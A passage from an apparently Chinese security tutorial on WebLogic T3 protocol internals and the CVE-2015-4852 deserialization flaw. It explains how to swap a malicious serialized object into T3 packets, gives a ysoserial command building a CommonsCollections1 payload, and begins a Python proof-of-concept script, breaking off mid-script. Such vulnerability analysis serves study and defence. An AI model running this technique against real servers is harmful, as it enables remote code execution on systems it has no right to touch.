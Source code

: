 ![60.png](https://nosec.org/avatar/uploads/attach/image/8c1de7b38bbfedc9c6f1337013e4fd80/60.png)

我们完成了一次正常的WebLogic RMI调用过程，我们也来看一下WebLogic RMI的调用数据包：

![61.png](https://nosec.org/avatar/uploads/attach/image/16fa89e218e5774b7366d599b9fe27d9/61.png)

我在抓包之后想过找一份完整的T3协议的定义去详细的解释T3协议，但或许因为WebLogic不是开源软件，我最终没有找到类似的协议定义文档。因此我只能猜测T3协议包中每一部分的作用。虽然是猜测，但还是有几点值得注意，和漏洞利用关系很大，我放到下一节说。

再来看一下WebLogic RMI的调用流程：

![62.png](https://nosec.org/avatar/uploads/attach/image/a402f2952f3de82c39d76a9bc37e421c/62.png)

前置知识讲完了，小结一下这些概念的关系，Java RMI即远程方法调用，默认使用JRMP协议通信。WebLogic RMI是WebLogic对Java RMI的实现，其使用T3或IIOP协议作为通信协议。无论是Java RMI还是WebLogic RMI，都需要使用JNDI去发现远端的RMI服务。

两张图来解释它们的关系：

![63.png](https://nosec.org/avatar/uploads/attach/image/c87feff3d10c1a02b4f72e93ef5ed374/63.png)

#### **漏洞原理**

上面，我详细解释了WebLogic RMI的调用过程，我们初窥了一下T3协议。那么现在我们来仔细看一下刚才抓到的正常WebLogic RMI调用时T3协议握手后的第一个数据包,有几点值得注意的是：

* 我们发现每个数据包里不止包含一个序列化魔术头（0xac 0xed 0x00 0x05）
* 每个序列化数据包前面都有相同的二进制串（0xfe 0x01 0x00 0x00）
* 每个数据包上面都包含了一个T3协议头
* 仔细看协议头部分，我们又发现数据包的前4个字节正好对应着数据包长度
* 以及我们也能发现包长度后面的“01”代表请求，“02”代表返回

![64.png](https://nosec.org/avatar/uploads/attach/image/6a43d143911b4ae3bd883cd75ac78403/64.png)

这些点说明了T3协议由协议头包裹，且数据包中包含多个序列化的对象。那么我们就可以尝试构造恶意对象并封装到数据包中重新发送了。流程如下：

![65.png](https://nosec.org/avatar/uploads/attach/image/cbbccb2fe9f65b59752b0dddad1fa36d/65.png)

替换序列化对象示意图如下：

![66.png](https://nosec.org/avatar/uploads/attach/image/192cde66b334bdd33eede041aeb46a7b/66.png)

剩下的事情就是找到合适的利用链了（通常也是最难的事）。

我用最经典的CVE-2015-4852漏洞，使用Apache Commons Collections链复现一下整个过程，制作一个简单的PoC。

首先使用Ysoserial生成Payload：

```text
 $java -jar ysoserial.jar CommonsCollections1 'touch /hacked_by_tunan.txt' > payload.bin
```

然后我们使用Python发送T3协议的握手包，直接复制刚才抓到的第一个包的内容，看下效果如何：

```text
#!/usr/bin/python

#coding:utf-8

# weblogic_basic_poc.py

import socket

import sys

import struct

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# 第一个和第二个参数，传入目标IP和端口

```